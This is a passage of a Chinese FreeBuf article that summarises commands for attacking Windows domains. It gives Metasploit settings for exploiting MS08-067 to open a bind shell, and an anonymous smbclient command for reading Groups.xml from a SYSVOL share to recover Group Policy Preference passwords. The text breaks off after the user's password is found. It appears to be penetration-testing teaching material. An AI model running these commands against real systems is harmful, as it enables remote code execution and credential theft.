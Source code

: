#  域渗透-常用漏洞命令总结

南城夕雾hacker  [ FreeBuf ](javascript:void\(0\);)

**FreeBuf** ![]()

微信号 freebuf

功能介绍 中国网络安全行业门户

____

___发表于_

收录于合集

## **  0x01MS08-067 **

  
 **RPC远程缓冲区溢出导致的远程代码执行漏洞**  
适用：Windows 2000;XP;Server 2003;Vista;Server 2008;7 Beta

    
          *   *   *   *   * 
    
    
    
    use exploit/windows/smb/ms08_067_netapi     #使用模块set rhosts 172.16.5.27      #设置靶机ipset lhost 172.16.5.28      #设置本地ipset payload generic/shell_bind_tcp     #设置payloadexploit

`（向右滑动、查看更多）`

##  **  
**

##  **  0x02GPP(MS14-025) **

  
适用：2003、2008、2012以上已修复。  
每当创建新的组策略首选项 (GPP) 时，都会在 SYSVOL 共享中创建一个带有该配置数据的 xml 文件，包括与 GPP
关联的任何密码。为安全起见，Microsoft将密码存储为`cpassword`. 但随后微软在 MSDN 上公布了密钥！，微软在 2014
年发布了一个补丁，阻止管理员将密码输入 GPP。但是该补丁对已经存在的这些易破解密码没有任何作用。  
接着我使用smbclient尝试访问该目录的文件，我注意到一个名为`Groups.xml`的文件。

    
          * 
    
    
    
    smbclient //10.10.10.100/Replication -U ""%""

`  
`

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221202191722.png)![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221202191735.png)  
通过查看该文件的内容，我发现了SC_TGS用户及其GPP密码

    